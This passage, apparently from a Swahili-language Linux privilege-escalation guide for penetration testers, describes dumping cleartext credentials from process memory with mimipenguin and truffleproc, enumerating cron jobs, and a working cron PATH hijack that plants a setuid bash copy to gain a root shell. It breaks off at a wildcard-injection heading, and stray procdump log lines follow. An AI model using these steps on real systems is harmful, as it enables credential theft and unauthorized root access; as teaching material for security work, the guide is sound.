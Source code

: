 The tool [**https://github.com/huntergregal/mimipenguin**](https://github.com/huntergregal/mimipenguin) kitapora **alama za kuingia za maandishi wazi kutoka kwenye kumbukumbu** na kutoka kwa baadhi ya **mafayela yanayojulikana**. Kinahitaji ruhusa za root ili kifanye kazi ipasavyo.

| Kipengele                                          | Jina la mchakato     |
| ------------------------------------------------- | -------------------- |
| GDM password (Kali Desktop, Debian Desktop)       | gdm-password         |
| Gnome Keyring (Ubuntu Desktop, ArchLinux Desktop) | gnome-keyring-daemon |
| LightDM (Ubuntu Desktop)                          | lightdm              |
| VSFTPd (Active FTP Connections)                   | vsftpd               |
| Apache2 (Active HTTP Basic Auth Sessions)         | apache2              |
| OpenSSH (Active SSH Sessions - Sudo Usage)        | sshd:                |

#### Regex za Utafutaji/[truffleproc](https://github.com/controlplaneio/truffleproc)
```bash
# un truffleproc.sh against your current Bash shell (e.g. $$)
./truffleproc.sh $$
# coredumping pid 6174
Reading symbols from od...
Reading symbols from /usr/lib/systemd/systemd...
Reading symbols from /lib/systemd/libsystemd-shared-247.so...
Reading symbols from /lib/x86_64-linux-gnu/librt.so.1...
[...]
# extracting strings to /tmp/tmp.o6HV0Pl3fe
# finding secrets
# results in /tmp/tmp.o6HV0Pl3fe/results.txt
```
## Zilizopangwa/Cron jobs

Angalia kama kuna Cron job yoyote yenye udhaifu. Labda unaweza kunufaika na script inayotekelezwa na root (wildcard vuln? unaweza kubadilisha faili zinazotumiwa na root? tumia symlinks? unda faili maalum katika directory inayotumiwa na root?).
```bash
crontab -l
ls -al /etc/cron* /etc/at*
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```
### Cron path

Kwa mfano, ndani ya _/etc/crontab_ unaweza kupata PATH: _PATH=**/home/user**:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin_

(_Kumbuka jinsi mtumiaji "user" ana ruhusa za kuandika kwenye /home/user_)

Iwapo ndani ya crontab hii mtumiaji root atajaribu kutekeleza amri au script bila kuweka PATH. Kwa mfano: _\* \* \* \* root overwrite.sh_\
Kisha, unaweza kupata shell ya root kwa kutumia:
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
#Wait cron job to be executed
/tmp/bash -p #The effective uid and gid to be set to the real uid and gid
```
### Cron inavyotumia script yenye wildcard (Wildcard Injection)


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714